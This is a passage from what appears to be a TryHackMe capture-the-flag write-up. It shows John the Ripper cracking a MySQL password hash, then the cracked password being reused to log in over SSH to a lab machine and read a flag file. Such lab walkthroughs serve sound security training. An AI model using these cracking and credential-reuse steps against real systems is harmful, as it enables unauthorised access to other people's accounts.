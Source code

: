 Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found?

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Warning: Only 4 candidates left, minimum 8 needed for performance.
Proceeding with incremental:ASCII
doggie           (?)
1g 0:00:00:04 DONE 3/3 (2020-11-13 19:00) 0.2173g/s 804282p/s 804282c/s 804282C/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`doggie`

Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service? What's the contents of MySQL.txt

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ ssh carl@10.10.91.253
The authenticity of host '10.10.91.253 (10.10.91.253)' can't be established.
ECDSA key fingerprint is SHA256:9S3Avia08/py9bzFfGsbMQaGCJLMWT3uCYJxPZ/w2j4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.91.253' (ECDSA) to the list of known hosts.
carl@10.10.91.253's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 13 18:01:53 UTC 2020

  System load:  0.0               Processes:           87
  Usage of /:   41.7% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.91.253
  Swap usage:   0%


23 packages can be updated.
0 updates are security updates.


Last login: Thu Apr 23 12:57:41 2020 from 192.168.1.110
carl@polomysql:~$ ls -lA
total 36
-rw------- 1 carl carl  251 Apr 23  2020 .bash_history
-rw-r--r-- 1 carl carl  220 Apr 23  2020 .bash_logout
-rw-r--r-- 1 carl carl 3771 Apr 23  2020 .bashrc
drwx------ 2 carl carl 4096 Apr 23  2020 .cache
drwx------ 3 carl carl 4096 Apr 23  2020 .gnupg
-rw-r--r-- 1 carl carl  807 Apr 23  2020 .profile
drws--S--- 2 carl carl 4096 Apr 23  2020 .ssh
-rw------- 1 carl carl 1854 Apr 23  2020 .viminfo
-rw-rw-r-- 1 carl carl   44 Apr 23  2020 MySQL.txt
carl@polomysql:~$ cat MySQL.txt
THM{congratulations_you_got_the_mySQL_flag}
```
